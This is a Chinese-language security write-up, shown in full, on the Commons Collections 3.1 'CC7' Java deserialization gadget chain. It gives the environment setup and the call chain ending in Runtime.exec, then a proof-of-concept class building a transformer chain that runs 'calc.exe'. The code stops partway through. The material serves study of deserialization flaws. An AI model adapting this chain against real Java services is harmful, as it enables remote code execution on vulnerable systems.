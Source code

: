 # 环境搭建

- JDK 1.8
- Commons Collections 3.1

```
<dependencies>
    <dependency>
        <groupId>commons-collections</groupId>
        <artifactId>commons-collections</artifactId>
        <version>3.1</version>
    </dependency>
</dependencies>
```

# 利用链分析

**利用链**

```
java.util.Hashtable.readObject
java.util.Hashtable.reconstitutionPut
org.apache.commons.collections.map.AbstractMapDecorator.equals
java.util.AbstractMap.equals
org.apache.commons.collections.map.LazyMap.get
org.apache.commons.collections.functors.ChainedTransformer.transform
org.apache.commons.collections.functors.InvokerTransformer.transform
java.lang.reflect.Method.invoke
sun.reflect.DelegatingMethodAccessorImpl.invoke
sun.reflect.NativeMethodAccessorImpl.invoke
sun.reflect.NativeMethodAccessorImpl.invoke0
java.lang.Runtime.exec
```

POC

```
package CC7;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;

public class CC7Payload {
    public static void main(String[] args) throws Exception{
        Transformer[] faketransformers = new Transformer[]{};

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class}, new String[] {"calc.exe"}),
        };
```